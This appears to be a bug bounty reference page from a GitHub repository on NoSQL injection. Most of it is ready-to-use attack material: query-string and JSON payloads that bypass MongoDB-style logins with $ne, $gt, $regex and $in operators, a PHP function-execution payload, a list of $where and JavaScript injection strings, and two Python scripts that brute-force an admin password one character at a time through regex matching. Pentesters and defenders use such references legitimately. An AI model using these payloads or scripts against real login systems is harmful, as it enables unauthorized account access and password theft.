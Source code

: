 
## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/NoSQL%20Injection.md#introduction)

NoSQL databases provide looser consistency restrictions than traditional SQL databases. By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits. Yet these databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional SQL syntax.

## How to Exploit

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/NoSQL%20Injection.md#how-to-exploit)

### Authentication Bypass

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/NoSQL%20Injection.md#authentication-bypass)

Basic authentication bypass using not equal ($ne) or greater ($gt)

```
in the request
- username[$ne]=toto&password[$ne]=toto
- login[$regex]=a.*&pass[$ne]=lol
- login[$gt]=admin&login[$lt]=test&pass[$ne]=1
- login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto
```

The output is
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}

### Extract length information

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/NoSQL%20Injection.md#extract-length-information)

username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}

### Extract data information

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/NoSQL%20Injection.md#extract-data-information)

in URL
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*

in JSON
{"username": {"$eq": "admin"}, "password": {"$regex": "^m" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^md" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^mdp" }}

### Extract data with "in"

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/NoSQL%20Injection.md#extract-data-with-in)

{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}

### PHP Arbitrary Function Execution

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/NoSQL%20Injection.md#php-arbitrary-function-execution)

"user":{"$func": "var_dump"}

## Blind NoSQL

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/NoSQL%20Injection.md#blind-nosql)

### POST

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/NoSQL%20Injection.md#post)

import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/json'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'OK' in r.text or r.status_code == 302:
                print("Found one more char : %s" % (password+c))
                password += c

### GET

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/NoSQL%20Injection.md#get)

import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username='admin'
password=''
u='http://example.org/login'

while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|', '#', '&', '$']:
      payload='?username=%s&password[$regex]=^%s' % (username, password + c)
      r = requests.get(u + payload)
      if 'Yeah' in r.text:
        print("Found one more char : %s" % (password+c))
        password += c

Another example using sleep to check vuln or not

```
'%2bsleep(1)%2b'
```

### MongoDB Payloads

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/NoSQL%20Injection.md#mongodb-payloads)

true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1

## Tools

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/NoSQL%20Injection.md#tools)

- [NoSQLmap - Automated NoSQL database enumeration and web application exploitation tool](https://github.com/codingo/NoSQLMap)

## References

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/NoSQL%20Injection.md#references)

- [Hacktricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection)
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/NoSQL%20Injection/README.md)

